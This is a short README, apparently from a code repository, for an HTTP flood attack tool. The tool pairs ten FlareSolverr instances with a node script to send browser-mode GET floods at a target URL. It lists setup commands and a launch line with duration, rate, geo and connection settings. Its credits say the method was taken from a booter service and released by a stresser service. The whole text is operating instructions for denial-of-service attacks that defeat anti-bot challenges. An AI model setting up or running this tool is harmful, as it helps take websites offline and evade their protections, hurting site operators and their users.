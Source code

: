 # http-browser
HTTP Browser method using FlareSolverr



sh install.sh

unzip solvers.zip

install the other depedencies as the script asks with 'npm i name'

cd solvers/flaresolver01; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver02; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver03; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver04; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver05; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver06; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver07; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver08; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver09; export PUPPETEER_PRODUCT=firefox; npm install
cd solvers/flaresolver10; export PUPPETEER_PRODUCT=firefox; npm install

python start_solvers.py

run the method 

node beta.js "https://website.com" 600 64 GET --mode browser --geo all --conn 32


Method hacked from Booter.sx, released by Stresser.US - method updated and upgraded to HTTP/2 by forky and WeAreRainBowHAT

Hacked by T13R and forky
